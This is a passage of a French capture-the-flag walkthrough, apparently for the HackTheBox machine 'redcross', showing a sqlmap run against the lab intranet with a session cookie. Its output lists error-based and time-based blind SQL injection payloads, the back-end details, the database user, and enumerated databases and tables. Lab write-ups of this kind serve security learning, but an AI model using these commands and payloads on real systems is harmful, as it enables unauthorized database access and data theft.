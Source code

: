 ```plain
$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" -p o --cookie="PHPSESSID=mreqtebbk20fa24ppak7rj3k81"  --random-agent --keep-alive --delay=2 --current-user

[*] starting at 15:25:51

[15:25:51] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.0.1) Gecko/2008072610 Firefox/2.0.0.12' from file '/usr/share/sqlmap/txt/user-agents.txt'
[15:25:52] [INFO] resuming back-end DBMS 'mysql'
[15:25:52] [INFO] testing connection to the target URL
[15:25:54] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: o (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=1') AND (SELECT 6275 FROM(SELECT COUNT(*),CONCAT(0x7170787671,(SELECT (ELT(6275=6275,1))),0x7170787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- NyaP&page=app

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: o=1') AND SLEEP(5)-- DUKy&page=app
---
[15:25:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[15:25:54] [INFO] fetching current user
[15:26:05] [INFO] retrieved: dbcross@localhost
current user:    'dbcross@localhost'
[15:26:05] [INFO] fetched data logged to text files under '/home/devloop/.sqlmap/output/intra.redcross.htb'

[*] shutting down at 15:26:05
```

Cette fois ça passe comme dans du beurre. L'auteur que sqlmap [a mentionné une variable d'environnement](https://twitter.com/sqlmap/status/1085887247998689280) pour ne pas ce soucier de ce problème.  

Je vous fait grâce des légères modifications de commandes pour lister les bases de données, tables et dumper tout ça : *sqlmap -h* (ou *-hh*) se suffit à lui même.  

```plain
available databases [2]:
[*] information_schema
[*] redcross

Database: redcross
[3 tables]
+----------+
| messages |
| requests |
| users    |
+----------+

Database: redcross
Table: requests
[0 entries]
+----+------+-------+---------+
| id | body | cback | subject |
+----+------+-------+---------+
+----+------+-------+---------+

```